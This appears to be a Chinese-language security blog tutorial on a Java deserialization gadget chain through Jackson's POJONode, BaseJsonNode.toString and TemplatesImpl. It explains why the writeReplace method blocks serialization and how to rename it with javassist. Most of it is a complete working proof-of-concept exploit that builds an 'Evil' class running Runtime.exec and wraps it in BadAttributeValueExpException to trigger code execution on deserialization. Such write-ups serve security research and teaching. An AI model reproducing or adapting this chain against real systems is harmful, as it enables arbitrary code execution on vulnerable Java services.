

# 前言
jackson 在序列化时会调用 get 方法，反序列化时会调用 set 方法
spring 框架中内置的有 jackson 包，因此我们也需要学习 jackson 的相关序列化调用
在 POJONode 这一个类中，恰恰可以满足我们的触发条件，去触发 get 方法，具体看下文分析
管理依赖
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| <dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-core</artifactId>
<version>2.13.3</version>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-annotations</artifactId>
<version>2.13.3</version>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-databind</artifactId>
<version>2.13.3</version>
</dependency>
|
# POJONode
可以看到在其父类 BaseJsonNode 类中，书写了 toString 方法
调用了 InternalNodeMapper.nodeToString，执行了 writeValueAsString，执行序列化对本身，这里的 STD_WRITER 这一常量，我们在追踪看下
可以看到这一常量就是 JsonMapper.writer () 的返回结果
JsonMapper.writer () 返回 ObjectWriter 对象
ObjectWriter 是 Jackson 中专门用于序列化对象的组件，它是从 ObjectMapper 衍生出来的，可以提供更灵活的序列化配置
说白了就是 ObjectWriter 可以简单理解为高配版的 ObjectMapper 序列化，作用不变
那总结一下调用 BaseJsonNode 的 toString 方法相当于 ObjectWriter,writeValueAsString (BaseJsonNode)
# 报错原因
可以看到停在了序列化 writeObject

然后就抛出错误停止执行了，究其原因就是可以看到在 POJONode 的父类 BaseJsonNode 中具有 writeReplace 方法
# writeReplace
- 基本概念
- 在 Java 反序列化过程中，
writeReplace 方法是一个特殊的钩子方法，用于在对象被序列化时，替换当前对象。它定义在 ObjectOutputStream 类中，方法签名是 protected Object writeReplace() 。 - 当对象被序列化时，如果该对象的类定义了
writeReplace 方法， ObjectOutputStream 会优先调用这个方法来获取一个替代对象，然后对这个替代对象进行序列化操作，而不是直接序列化原始对象。
- 作用场景
- 对象的安全性增强
- 例如，假设有一个包含敏感信息（如密码等）的对象。在序列化这个对象时，我们不希望敏感信息被暴露。可以利用
writeReplace 方法返回一个新的对象，这个新对象将敏感信息移除或者替换为安全的占位符。
- 优化序列化数据
- 有时候对象本身可能包含一些在序列化过程中不需要或者不适合存储的数据。通过
writeReplace 方法可以返回一个简化后的对象用于序列化。 - 例如，一个对象有一个很大的临时缓存数组，在序列化时可以不需要保存这个数组。就可以在
writeReplace 方法中返回一个去掉了缓存数组的新对象。
- 处理对象的引用问题
- 在某些情况下，同一个对象可能在多个地方被引用。为了优化序列化后的数据结构或者满足某些特殊的序列化需求，可以使用
writeReplace 来替换对象，使得引用关系在序列化后得到重新组织。
# 解决方式
因为无法通过源码进行修改，我们可以通过反射直接将这个方法换成别的名字，简单粗暴，
1
2
3
4
5
6
7
8
9
10
11
12
13
| ClassPool classPool = ClassPool.getDefault();
classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = classPool.makeClass("Evil");
String cmd= "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(cmd);
cc.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
CtClass ctClass = classPool.getCtClass("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
writeReplace.setName("propeht");
ctClass.toClass();
|
# poc
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
| import javax.management.BadAttributeValueExpException;
import com.fasterxml.jackson.databind.node.BaseJsonNode;
import com.fasterxml.jackson.databind.node.POJONode;
import groovy.transform.Undefined;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.CtMethod;
import java.io.FileOutputStream;
import java.io.FileInputStream;
import java.io.ObjectOutputStream;
import java.io.ObjectInputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
public class poc {
public static void main(String[] args) throws Exception {
ClassPool classPool = ClassPool.getDefault();
classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = classPool.makeClass("Evil");
String cmd= "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(cmd);
cc.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
CtClass ctClass = classPool.getCtClass("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
writeReplace.setName("propeht");
ctClass.toClass();
byte[] classBytes = cc.toBytecode();
byte[][] code = new byte[][]{classBytes};
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates, "_bytecodes", code);
setFieldValue(templates, "_name", "prophet");
setFieldValue(templates, "_class", null);
setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
POJONode node = new POJONode(templates);
Object bad = new BadAttributeValueExpException(null);
Field field = BadAttributeValueExpException.class.getDeclaredField("val");
field.setAccessible(true);
field.set(bad, node);
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("ser.ser"));
out.writeObject(bad);
out.close();
ObjectInputStream in = new ObjectInputStream(new FileInputStream("ser.ser"));
in.readObject();
in.close();
}
public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
final Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, value);
}
}
|